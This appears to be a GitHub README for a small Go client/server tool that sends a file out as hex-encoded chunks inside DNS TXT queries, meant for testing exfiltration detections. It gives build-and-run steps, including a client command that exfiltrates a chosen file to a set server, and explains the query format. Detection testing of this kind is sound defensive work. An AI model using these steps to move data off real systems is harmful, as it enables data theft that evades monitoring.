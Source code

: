 # dns-TXT-exfi-test
Simple client/server in golang to help with testing data exfil detections over DNS TXT records. Note: this utility is intended for detections testing rather than for use in red team operations, as this does not contain opsec controls (uses simple hex encoding).

## Steps:
On Server Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfil-test

2. > cd dns-TXT-exfil-test/server

3. > go get github.com/miekg/dns

4. > go build

5. > ./server


On Client Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfil-test

2. > cd dns-TXT-exfil-test/client

3. > sed -i -e 's|10.10.10.10|IP_OF_YOUR_SERVER_HOST|g' client.go

4. > go build

5. > ./client [path_to_file_to_exfil]

------------

## Under The Hood

From a detections perspective, this is how this tool works:

1. The client takes the file, breaks it into 50 character hex encoded chunks

2. The client then takes each 50 character chunk and sends it in a DNS TXT record request as follows:

`[hex_file_data].macconsultants.com,  TYPE: TXT, CLASS IN`

3. The server takes each 50 character hex encoded chunk, unhexlifies it, and writes it to a file in the current directory named "outfile"

4. The server also sends a TXT answer to that query as follows:

`[hex_file_data].macconsultants.com, TYPE TXT, CLASS IN`


This can be a helpful way to validate any detections around suspicious DNS TXT traffic

**Note: This tool gets all but the last 4-5 bytes of a the sent file, due to how I perform the parsing on the server side. However, this is still sufficient for testing exfil over TXT records**
